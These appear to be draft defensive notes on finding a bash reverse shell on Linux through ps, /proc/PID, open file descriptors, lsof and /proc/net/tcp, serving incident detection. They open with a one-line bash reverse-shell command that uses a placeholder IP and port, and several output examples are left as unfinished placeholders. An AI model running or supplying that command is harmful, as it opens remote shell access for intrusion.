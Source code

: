 # Tracking Activity using PID
## reverse shells
```bash
bash -i >& /dev/tcp/IP_ADDRESS/PORT 0>&1
```

## List processes running
```bash
ps -auxw
```
Listing the processes should allow you to see the bash shell running. The shell will have the interactive (-i) flag. In general, this isn't terribly common and is a good place to start. 

```
add example of what the output will look like from ps command
```



## Change Directory to /proc/PID of the suspicious process
```bash

cd /proc/PID
ls -al
```

```bash
show out up
```

look for exe -> /usr/bin/bash
This shows the reverse shell is connected to this executable
```bash
show out up
```



##
```bash
/proc/PID/fd
ls -al
```
![/proc/pid/fd](https://redcanary.com/wp-content/uploads/2022/08/image2-1024x468.png "/proc/pid/fd")


you can see that stdin, stdout, and stderr are all connected to sockets and the inode number that we will see again later. This is a red flag. 
find out what those socket types are. Look for weird files open, payload dirs, etc.


## Search for file opened by this reverse shell
```bash
lsof -p PID
```
![lsof PID](https://redcanary.com/wp-content/uploads/2022/08/image1.png "lsof")

this will show the ip addresses of the remote host it has conencted to. Can also use tools like netstat or ss to see open sockets.


## check out /proc/net/tcp 
This will list all open TCP sockets and is the raw data networking tools use to show what is happening. Here we see the inode # of the open sockets and that they are connected to something with TCP.

```bash
cat /proc/net/tcp
```
This will show you the inode number that should match with the inode number shown when seeing the connection to stdin, stdout, stderr. 



### References:
 - https://x.com/craighrowland/status/1802850025443336414
 - https://library.mosse-institute.com/articles/2022/05/perform-remote-code-execution-with-the-use-of-reverse-shells/perform-remote-code-execution-with-the-use-of-reverse-shells.html
 - https://tomtietz.github.io/blog/2023/03/07/remote-shells.html
 - https://redcanary.com/blog/threat-detection/process-streams/

